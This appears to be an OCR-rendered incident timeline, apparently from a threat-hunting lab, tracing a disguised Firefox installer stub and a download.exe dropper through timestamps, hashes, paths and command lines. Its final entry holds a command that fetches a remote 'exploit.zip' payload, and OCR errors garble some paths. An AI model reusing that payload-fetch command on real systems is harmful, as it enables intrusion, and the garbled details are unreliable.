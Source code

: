
## Chronological Event Timeline 

### 1. Initial Legitimate Firefox Download

- **Timestamp:** `2025-10-12T04:29:57Z`
- **Event:** Firefox installer file created in Downloads.
- **Source:** `https://download-installer.cdn.mozilla.net/pub/firefox/releases/143.0.4/win32/en-US/Firefox%20Installer.exe`
- **Location:** `C:\Users\employee0\Downloads\Firefox Installer.exe`
- **Note:** This appears to be the initial legitimate Firefox installer download

### 2. First Malicious Execution Chain

- **Timestamp:** `2025-10-12T04:53:13.2308235Z`
- **Event:** `ProcessCreated - setup-stub.exe`
- **Location:** `C:\Users\employee0\AppData\Local\Temp\7zSC13643DD\setup-stub.exe.`
- **SHA256:** `181baa1380e339d8acb6b067c33dd36a5f56e57ee05f7e524b752affaafa75ac`
- **Command:** `setup-stub.exe /S`
- Initial execution of the malicious stub

- **Timestamp:** `2025-10-12T05:11:57.3966573Z`
- **Event:**  `ProcessCreated - setup-stub.ex`
- **SHA256::** `181baa1380e339d8acb6b067c33dd36a5f56e57ee05f7e524b752affaafa75ac`
- **Location:** `C:\Users\employee0\AppData\Local\Temp\7zS065AF25E\setup-stub.exe`
- **Command:** `setup-stub.exe -no-remote -profile "C:\Users\employee®@\Downloads\Temp\MalProfile"`
- First instance with malicious profile parameter

- **Timestamp:** `2025-10-12T05:11:57.3966573Z`
- **Event:** `ProcessCreated - download.exe`
- **Location:** `C:\Users\employee0\AppData\Local\Temp\nskC4FD.tmp\download.exe`
- **Command:** `"download.exe" /LaunchedFromStub /INI=C:\Users\EMPLOY~1\AppData\Local\Temp\nskC4FD.tmp\config.ini`
- First download.exe execution (malware dropper)

- **Timestamp:** `**2025-10-12T05:11:59.9392824Z`
- **Location:** `C:\Users\employee0\AppData\Local\Temp\7zS0A601D8E\core\`
- Initiating Process: `download.exe` from previous step
- Temporary Firefox files created

- **Timestamp:**  `2025-10-12T05:12:27.0038042Z`
- **Event:** `FileDeleted - Temporary firefox.exe files`
- **Location:** `C:\Users\employee0\AppData\Local\Temp\7zS0A601D8E\core\firefox.exe`
- Cleanup of temporary files
  

### 3. Second Malicious Execution Chain

- **Timestamp:**  `2025-10-12T05:54:42.4659997Z `
- **Event:** `ProcessCreated - setup-stub.exe`
- **Location:** `C:\Users\employee0\AppData\Local\Temp\7zSC0188666\setup-stub.exe`
- **SHA256:**: `181baa1380e339d8acb6b067c33dd36a5f56e57ee05f7e524b752affaafa75ac`
- **Command:** `setup-stub.exe -no-remote -profile "C:\Users\employee®@\Downloads\Temp\MalProfile" http://192.168.1.100/exploit.zip`
- First instance with remote payload URL

